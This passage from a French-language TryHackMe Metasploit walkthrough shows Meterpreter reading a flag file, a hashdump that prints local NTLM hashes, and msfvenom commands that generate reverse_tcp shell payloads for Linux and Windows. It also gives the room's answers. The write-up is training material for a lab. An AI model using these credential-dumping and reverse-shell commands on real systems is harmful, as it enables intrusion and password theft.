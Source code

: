 Lecture du contenu du fichier :

```bash
meterpreter > cat c:\\Users\\Jon\\Documents\\flag.txt
```
{: .nolineno }

**Réponse :** `THM-5455554845`

---

**Question 2 : What is the NTLM hash of the password of the user "pirate"?**

Pour extraire les hashes des utilisateurs locaux, Meterpreter propose la commande `hashdump`.

```bash
meterpreter > hashdump
```
{: .nolineno }

**Résultat :**

```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
pirate:1001:aad3b435b51404eeaad3b435b51404ee:8ce9a3ebd1647fcc5e04025019f4b875:::
```
{: .nolineno }

Le hash NTLM de l'utilisateur "pirate" correspond à la partie située entre les doubles deux-points.

**Réponse :** `8ce9a3ebd1647fcc5e04025019f4b875`

---

### Task 6 - Msfvenom

#### Introduction à Msfvenom

Msfvenom est l'outil de génération de payloads de Metasploit. Il remplace les anciens outils `msfpayload` et `msfencode` en combinant leurs fonctionnalités.

**Fonctionnalités principales :**

- Génération de payloads personnalisés
- Support de multiples formats de sortie (exe, elf, php, dll, etc.)
- Compatibilité avec diverses plateformes (Windows, Linux, macOS, Android, etc.)
- Encodage des payloads pour l'évasion antivirus

**Exemples de génération de payloads :**

**Linux :**
```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=4444 -f elf > shell.elf
```
{: .nolineno }

**Windows :**
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=4444 -f exe > shell.exe
```
{: .nolineno }
